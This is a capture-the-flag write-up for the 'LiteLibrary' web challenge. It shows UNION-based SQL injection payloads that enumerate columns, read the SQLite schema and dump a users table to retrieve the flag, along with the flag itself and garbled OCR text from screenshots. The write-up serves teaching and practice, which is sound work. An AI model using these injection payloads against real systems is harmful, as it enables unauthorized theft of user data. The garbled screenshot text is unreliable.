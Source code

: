 # LiteLibrary
> Testing in prod. No worries are long as we are lighte :)

## About the Challenge
We were given a website without the source code, and this website only has 1 functionality which is search book


[Image extracted text: LiteLibrary
The
The Divine
CAMeT Fa
HoMiote
Comedy
DIVINECOMEDY
THE INFERRO;
HE Funtnoe
KnMeanise
Dante Alighieri
DANTE ALIGHIERI
928 pages
sent their own opinion regarding the authors ideas included in the book or passage they are a form of literary criticism that analyzes the authors ideas writing techniques and quality a book analys)]


## How to Solve?
the first vulnerability that comes to my mind is SQL injection. First, I tried UNION-based SQL injection:

```
' UNION SELECT 1,2,3,4,5-- -
```


[Image extracted text: Not Secure
litelibrary web nitectf livelapi/search?q-the%27%2Ounion%2Oselect%201,2,3,4,5--%20 -
[{"title":1,'
author":2,"pages" : 3,
imageLink" :4,"Link":5}]]


And then i tried to dump the table structure using this payload

```
' UNION SELECT 1,2,3,(SELECT sql FROM sqlite_schema limit),5-- -
```

There are 2 tables here:

* CREATE TABLE BOOKS (title TEXT, author TEXT, pages TEXT, imageLink TEXT, link TEXT)
* CREATE TABLE USERS (liteId TEXT, liteUsername TEXT, gender TEXT, liteNick TEXT, litePass TEXT, dateCreated TEXT)


[Image extracted text: 4
Not Secure
litelibrary web nitectf livelapigsearch?q-d%27%2Ounion%2Oselect%201,2,3,(SELECT%2Osq/%20FROM%2Osqlite_schema%2Olimit%201%20offset%2.
1 <
[{"title":1,"author":2, "pages" : 3,
'imageLink"
'CREATE TABLE USERS (liteId TEXT ,
liteUsername
TEXT , gender TEXT ,
liteNick TEXT ,
litePass TEXT ,
dateCreated TEXT)" ,"link":5}]]


And then dump everything using `group_concat()` function and we can get the flag inside `liteNick` columns


[Image extracted text: 1
GET
[apilsearch?q=
egory5542062 , consue(0306/42,millicent2186802 , Sharron4952622 , m
%20unions20select%20192c282c3%2c ( SELECTS2OGROUP_
CONCAT(liteNick
acias6874966
bradshaw7024223
moore4479889
shaw2676353,oneill3
%20from%20users
%2c5--%20-
HTTP/1.1
917808, powers8690516,earnestine6645535 ,
lette7522201,dotson
2
Host:
litelibrary
web  nitectf.live
3912053, lindsay3531831,mcleod8797009, lauren8536802
moreno2670
Cache-Control:
max-age-0
795 , campbell6816593, shelton7184870
smal15559029,elsie9932472 ,
Upgrade-Insecure-Requests
perry9509025, carter5730718, claudine9975913, eaton3327941,cleme
5
User-Agent
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
nts8463315,valeria2666678,wynn3283719,mccray6032298,nicole994
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome/120 _
0.6099.71
4281,manning2045219,carla247323,buckner2321603
ramos497233
wh
itney1933457
romero2232887
karing260886, tammie8080724,beverly
Safari/537.36
6
Accept
7070264,emerson311527
klein7406787,evangelina9290989
stevenso
text/html,application/xhtml+xml,application/xml;q-0.9, image/avif_
n279824,paige5636020,glenn2413218, lee4167479, hampton2362060,b
image/webp, image/apng,*/*;q-0.8,application/signed-exchange;v=b3;
urns1644135,garza7326036,mccullough7274635, curtis9783275 , J
itte2970143
knowles5040069, barroni798740, lourdes5478744,reyna
q=0 _
Accept-Encoding
gzip,
deflate,
br
7793445,schneider2913,grimes6524287,hart1512508,shields544603
7,clarke2653576
karina7701615,yang2718578
marcia3453167 , campo
54838983, goldie4139591
warren4567896,winters781241,tammi65134
41,lorna7725082,kaitlin273489,lloyd8274440,anita5423322,dicke
rson1784669
mayra4206843
sanford1265009,harper9087769
kendra5
659968,guerra2846023
acosta719122,hicks4052625,stein6064166
right355782, saundra7158702 , laurie4144590
1ena2562690, blackwel
13671128,nite{too_
11t3
huh_50m30n3_937
an71_g2avl7y_Ov3r_h3r3
}, lynne9001248
sadie2516667
alicia3374493,sheryl8812094,bryan
4105210 ,megan2046801,mcknight8574733,
rice3984225
mos ley474032
2,jones8382393
vanessa6360898, ednal43646,jacklyn4193375,aguil
ar3069848
0dom4658909
ina31438k3
marian8930094,munoz324307
9 , mamiel230954,bryant8991065,deann1823205
rebecca8841382,dele
0n8849610,steele7834384,kimberley214164,claire7966994, rodriqu
pau
brig
med_]


```
nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}
```